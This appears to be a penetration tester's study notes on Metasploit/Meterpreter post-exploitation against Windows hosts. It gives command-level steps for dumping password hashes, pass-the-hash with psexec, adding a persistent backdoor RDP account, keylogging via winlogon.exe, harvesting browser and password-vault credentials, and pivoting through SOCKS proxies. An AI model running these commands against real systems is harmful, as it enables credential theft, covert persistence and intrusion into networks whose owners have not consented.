 # pen-leviathan
pentesting notes

## Priv Escalation
- If we grab hashes for a system, we can use `mimikatz` to grab them from memory. This needs to be done in a 64 bit process so that meterpreter can load the module without problem.
- Run `sysinfo` and check Meterpreter value. (x86/win32 aint gonna cut it)
- To find a process to migrate to, run `ps -A x86_64 -s` when you are a `system`. This will display available compatible processes to migrate to.

## Grab hashes
- `run post/windows/gather/smart_hashdump`
- Now you can run `creds` or `loot` in the msf console to see the data as well.
- use `exploit/windows/smb/psexec`
- set usersname and then the password hash

 ## Backdoor Installation
 - For windows systems, once you have a meterpreter session, `run persistence`
 - `run getgui -e -u atk_user -p atk_password`
 - RDP Service is now started and user 'atk_user' with password 'atk_password' can now rdp into the machine.

## Pillaging
Commands inside of meterpreter for pillaging data
- sysinfo
-- if server, for example, we would know to search and see what type of services are running (in shell this would be `wmic service where started=true get catption`
- getuid

Meterpreter has a good set of gather utilities under:
- run post/windows/gather OR
- run post/linux/gather
These can also be used outsie of the meterpreter session. You just need to use the `use` command, configure its options with `set` and then execute the module with `run`

### Windows
- run post/windows/gather/enum_domains

If the machine is part of a domain, we can enumerate accounts and other information in the default active domain
- run post/windows/gather/enum_ad_users
- In a shell, run `net localgroup` to list groups and `net localgroup [GROUPNAME]` to list members of a specific group
To figure out what resources are shared:
- run enum_shares (same as `net share` in a shell)

The two main scripts to use against windows hosts are:
- scraper - harvests system info including network shares, registry hives, and password hashes
- winenum - retrieves all kinds of info about the system including env vars, networking interfaces, routing, user accounts, and much more
- Both of the above are invoked using `run winenum` or `run scraper`. Files are saved locally.

Keyloggers:
These only record the keys of the process the session has been migrated to. So if you want info when a user logs into their computer, you need to be migrated to the `winlogon.exe` process.
- `run keylogrecorder` <- there is a `-c` option that allows you to automate the migration into the correct process.
- `run post/windows/capture/keylog_recorder`

Searching for files:
- From a meterpreter session: `search -d C:\\Users\\els\\ -f *.kdbx` <- password database file extension

Downloading files:
- use the download command.

Gather Credentials:
- `run post/windows/gather/credentials/`
- In the parent directory, there are useful scripts as well. For example the `enum_chrome` script can be used to gather credentials stored in Google Chrome

List Applications:
- `run post/windows/gather/enum_applications`

Other:
- `run post/windows/gather/credentials/credential_collector`

### Linux
https://n0where.net/linux-post-exploitation


## Mapping the Internal Network

### Meterpreter Commands
Basics:
- route
- arp (good way to find new ip addresses in the network)
- netstat (will show all the host network connections as well as the processes assocatied with them)
- arp_scanner
- ping_sweep (run outside of meterpreter, but has an option where it is set to a specific session number)
- netenum (research more)

Pivoting:
Add a new route to the network to allow for a single host to scan their own internal network.

- `route add 10.10.10.0/24 255.255.255.0 2` -> 2 is the session we want to route things through.
- `run autoroute -s 10.10.10.0/24`
- `route flush`

Sometimes metasploit modules are not enough and you may want to run tools like nmap or nessus on these new hosts. To do this we will once again use the current session on the exploited machine, to pivot external tools via the meterpreter session and its route. In order to do this we will have to set up a socks4 proxy within metasploit and then use tools like proxychains to route the traffic through this proxy.

#### Setup Proxy
- `use auxiliary/server/socks4a`
- configure a port to listen on
- Execute: `run`
- Can check for listening port via `netstat -tulpn | grep [PORT_NUM]`

Now that the proxy is set up, we need to configure tools like `proxychains` in order to use the address and port set in metasploit. Proxychains is a tool that forces any tcp connection made by any given application, to follow through proxy like SOCKS4 SOCKS5 TOR and so on.

#### Configure proxychains
- Open up the proxychain configuration at: /etc/proxychain.conf
- Change the last line to the following `socks4 127.0.0.1 [PORT_NUM]`
- The above statement is telling proxychains to use SOCKS4 as the proxy on our local address on [PORT_NUM]


